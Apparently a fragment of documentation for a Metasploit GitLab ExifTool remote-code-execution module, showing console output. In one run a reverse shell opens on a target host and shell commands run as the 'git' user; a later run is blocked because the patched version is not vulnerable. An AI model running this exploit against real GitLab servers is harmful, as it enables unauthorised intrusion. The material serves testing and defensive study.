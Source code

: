 ```
[*] Matching...
[*] B is input...
[+] Exploit successfully executed.
[*] Command shell session 1 opened (10.0.0.9:4444 -> 10.0.0.3:44304 ) at 2021-11-02 01:35:07 -0700

whoami
git
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-workhorse
```

### GitLab 14.4.1 on Ubuntu 20.04.2 x64. Unable to exploit.

```
msf6 > use exploits/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading NUvUyPiyKL3.jpg to /PT2hiCf47
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. The error response indicates ExifTool was not run. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitlab_exif_rce) > 
```
